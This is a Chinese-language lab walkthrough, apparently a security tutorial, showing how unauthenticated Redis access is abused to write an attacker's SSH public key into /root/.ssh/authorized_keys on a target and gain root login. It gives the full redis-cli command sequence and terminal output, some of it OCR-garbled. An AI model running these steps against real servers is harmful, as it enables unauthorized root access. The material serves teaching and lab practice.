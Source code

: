 ### 利用"公私钥"认证获取 root 权限

通过 Redis 未授权访问漏洞，写入公钥到 `.ssh/authorized_keys`
攻击者将自己的 ssh 公钥写入服务器的 `/root/.ssh` 文件夹的 `authotrized_keys` 文件中。进而使用私钥直接登录目标服务器。

```sh
redis-cli -h <redis_ip> -p <redis_port>
config set dir /root/.ssh
config set dbfilename authorized_keys
set any_key "\n<attacker_public_key>\n"
# 如
set x "\n\nssh-rsa AAAAB3Nza... attacker@machine\n\n"
# save 或 bigsave 保存。用于创建服务器当前数据库的磁盘快照（持久化）
# `SAVE` 命令创建 Redis 数据库的磁盘快照，但会阻塞所有客户端连接，适合小型数据库。生产环境中，建议使用 `BGSAVE` 命令在后台异步创建快照，以避免服务中断。
save
```

**靶机**: `192.168.0.104`
靶机中开启 redis 服务：`redis-server /etc/redis.conf`
在靶机中执行 `mkdir /root/.ssh` 命令，创建 ssh 公钥存放目录（靶机是作为 `ssh` 服务器使用的） 

**攻击机**: `192.168.0.105`
在攻击机中生成 ssh 公钥和私钥，密码设置为空。目的是往开启了 redis 服务的靶机中写入 ssh 公钥。
进入 `.ssh` 目录：`cd .ssh/`，将生成的公钥保存到 `1.txt`：
```
root@1:~/.ssh# (echo-e"\nn";catid_rsa.pub;echo-e"nn")>1.txt
rootd1:~/.ssh# ls-a
1.txt id_rsa id_rsa.pub
```
链接靶机上的 redis 服务，将保存 ssh 的公钥1.txt 写入 redis（使用 `redis-cli -h ip` 命令连接靶机，将文件写入）：
```
root@1:~/.ssh# cat 1.txt | redis-cli -h 192.168.0.104 -x set crack
OK
root@1:~/.ssh#
```
远程登录靶机的 redis 服务：`redis-cli -h 192.168.0.104` 
并使用 CONFIG GET dir 命令得到 redis 备份的路径：
```
root@1:~/.ssh#redis-cli-h192.168.0.104
192.168.0.104:6379>C0NFIG GET dir
1）"dir"
2)）"/home/bmjoker"
192.168.0.104:6379>
```
更改 redis 备份路径为 ssh 公钥存放目录（一般默认为 `/root/.ssh`）：
设置上传公钥的备份文件名字为 `authorized_keys`：
```
192.168.0.104:6379>configset dir/root/.ssh
OK
192.168.0.104:6379>
192.168.0.104:6379>CONFIG SET dbfilename authorized_keys
OK
192.168.0.104:6379>
```
检查是否更改成功（查看有没有 authorized_keys 文件），没有问题就保存然后退出，至此成功写入 ssh 公钥到靶机：
```
192.168.0.104:6379>C0NFIG GET dbfilename
1) "dbfilename"
2)"authorized_keys"
192.168.0.104:6379>save
OK
192.168.0.104:6379> exit
root@1:~/.ssh#
```
